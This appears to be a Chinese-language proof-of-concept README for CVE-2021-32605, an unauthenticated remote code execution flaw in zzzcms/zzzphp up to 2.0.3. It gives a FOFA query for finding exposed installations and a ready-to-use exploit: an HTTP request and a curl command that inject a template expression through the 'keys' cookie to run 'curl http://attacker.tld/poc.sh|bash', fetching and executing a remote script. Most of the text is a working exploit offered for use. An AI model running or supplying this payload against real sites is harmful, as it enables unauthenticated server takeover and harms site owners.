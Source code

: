 # zzzcms 远程代码执行漏洞（CVE-2021-32605）


此漏洞使远程攻击者可以在受影响的zzzphp安装上执行任意代码。利用此漏洞不需要身份验证。特定缺陷存在于搜索模板的处理中。此问题是由于在处理搜索模板时缺乏对用户提供键的正确验证而导致的。攻击者可以利用此漏洞在Web服务器的上下文中执行代码。

影响版本：
zzzphp <= 2.0.3

FOFA：
app="ZZZCMS"

poc：

```
GET /?location=search HTTP/1.1
Host: target.tld
Cookie: keys={if:=`curl http://attacker.tld/poc.sh|bash`}{end if}


curl -b 'keys={if:=`curl http://attacker.tld/poc.sh|bash`}{end if}' 'http://target.tld/?location=search'
```

ref:

* http://www.zzzcms.com/a/news/31_282_1.html
* https://srcincite.io/advisories/src-2021-0015/
* https://nvd.nist.gov/vuln/detail/CVE-2021-32605